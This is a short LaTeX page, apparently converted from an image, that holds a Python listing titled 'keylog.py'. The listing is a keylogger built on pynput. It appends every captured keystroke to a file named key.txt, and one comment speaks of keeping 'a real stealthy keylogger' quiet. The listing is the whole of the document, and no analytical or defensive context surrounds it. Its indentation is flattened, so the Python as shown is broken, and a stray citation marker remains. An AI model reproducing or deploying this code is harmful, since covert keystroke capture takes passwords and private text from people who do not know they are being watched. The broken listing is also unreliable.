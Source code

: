 \documentclass[11pt]{article}
\begin{document}
	\subsection{keylog.py}
	\begin{lstlisting}[language=Python, caption=keylog.py - Python Keylogger, basicnumbers=left, numberstyle=\tiny\color{gray}, stringstyle=\color{purple}, commentstyle=\color{olive}, keywordstyle=\color{blue}, breaklines=true, breakatwhitespace=true, tabsize=4, showstringspaces=false]
		from pynput import keyboard
		
		def on_press(key):
		text = ""
		if key == keyboard.Key.enter:
		text += "\n"
		elif key == keyboard.Key.tab:
		text += "\t"
		elif key == keyboard.Key.space:
		text += " "
		elif key == keyboard.Key.shift:
		pass
		elif key == keyboard.Key.backspace and len(text) == 0:
		pass
		elif key == keyboard.Key.backspace and len(text) > 0:
		text = text[:-1]
		elif key == keyboard.Key.ctrl_l or key == keyboard.Key.ctrl_r:
		pass
		elif key == keyboard.Key.esc:
		return False
		else:
		text = text + str(key).strip("'")
		
		try:
		with open("key.txt", "a+") as file: # Use try-except for file operations
		file.write(text)
		# print(f"Logged: {text}") # Avoid printing to console in a real stealthy keylogger
		except Exception as e:
		# print(f"Error writing to file: {e}") # Error handling
		pass
		
		
		with keyboard.Listener(on_press=on_press) as listener:
		try:
		listener.join()
		except Exception as e:
		# print(f"Error with listener: {e}")
		pass
	\end{lstlisting}
	Source: Provided `keylog.py` file[cite: 3].
	
\end{document}
